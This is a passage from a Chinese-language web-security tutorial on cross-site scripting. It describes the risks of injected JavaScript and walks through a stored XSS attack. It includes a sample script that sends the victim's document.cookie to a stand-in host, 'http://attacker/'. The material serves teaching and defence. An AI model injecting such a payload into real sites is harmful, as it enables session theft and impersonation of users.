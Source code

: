 ### 恶意 JavaScript 有哪些危害

在其它用户浏览器中执行任意 JavaScript 的能力，使得攻击者可以进行下面几种攻击：

- **盗取 Cookie**：攻击者使用 `document.cookie` 可以获取受害者与网站关联的 cookie，将其发送到自己的服务器，并利用 cookie 提取敏感信息，例如 session IDs。
- **键盘记录**：攻击者使用 `addEventListener` 可以注册键盘事件监听，然后将用户所有的键盘记录发送到自己的服务器，这里面可能会包含敏感信息，例如：密码或信用卡号。
- **钓鱼**：攻击者使用 DOM 操作可以插入一个伪造的登录表单，将表单的 `action` 属性设置为自己的服务器地址，然后欺骗用户提交敏感信息。

尽管这几种攻击方式大不相同，但有个关键点是相同的：由于攻击者是在网站提供的页面中注入的代码，所以恶意 JavaScript 会在网站的上下文中执行。这意味着，恶意 JavaScript 与来自网站的其它脚本待遇相同：它可以访问该网站上受害者的数据（例如：cookie）和 URL 地址栏中的主机名。不论出于何种目的，被注入的脚本会被看成网站合法的一部分，网站可以做的事，它同样可以做。

这样的事实凸显了一个关键点：

> 如果攻击者可以利用你的网站在其它用户浏览器中执行任意 JavaScript，那么你的网站及其用户的安全都受到了威胁。

为了强调这一点，本教程中的一些例子会略去恶意 JavaScript 的详细内容，只是表示为 `<script>...</script>`，这表明，不管实际中执行的是什么代码，只要攻击者注入的脚本出现，问题就存在。

## 第二部分：XSS 攻击

### XSS 攻击涉及到的角色

在详细介绍 XSS 攻击如何进行之前，需要定义 XSS 中涉及到的角色。通常，一次 XSS 会涉及三个角色：**网站**、**受害者**和**攻击者**。

- **网站**响应 HTML 页面给发起请求的用户。在我们的例子中，网站是 http://website/。
	- **网站的数据库**用来存储一些用户的输入，并输出到网站页面中。
- **受害者**是网站的普通用户，通过浏览器请求页面。
- **攻击者**是网站的恶意用户，准备利用网站的 XSS 漏洞发起攻击
	- **攻击者的服务器**是由攻击者控制，唯一的用途是盗取用户敏感信息。在我们的例子中，位于 http://attacker/ 
	

### 一次攻击示例

在这个例子当中，我们假设攻击者的目标是通过利用网站 XSS 漏洞盗取受害者的 cookie。这可以通过在受害者浏览器中执行如下代码实现：

```
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
上面的脚本将浏览器导航到新的页面，并触发一次 HTTP 请求到攻击者的服务器。URL 将受害者的 cookie 作为查询参数，当请求到达攻击者服务器时，攻击者就可以提取 cookie。一旦攻击者拿到了 cookie，他就可以冒充受害者，进而发起更深入的攻击。

从现在起，我们将上面的 HTML 代码称为恶意字符串或是恶意脚本。需要注意的是，上面的字符串只有被受害者浏览器作为 HTML 解析之后，才会产生危害。

#### 示例攻击如何进行

下图展示了攻击者如何进行攻击：

![persistent-xss](http://excess-xss.com/persistent-xss.png)

1. 攻击者利用网站的表单插入恶意字符串到网站数据库中。
2. 受害者从网站中请求页面。
3. 网站在响应中包含了来自数据库的恶意字符串，并返回给受害者。
4. 受害者的浏览器执行了响应中的恶意字符串，将受害者的 cookie 发送到了攻击者的服务器。
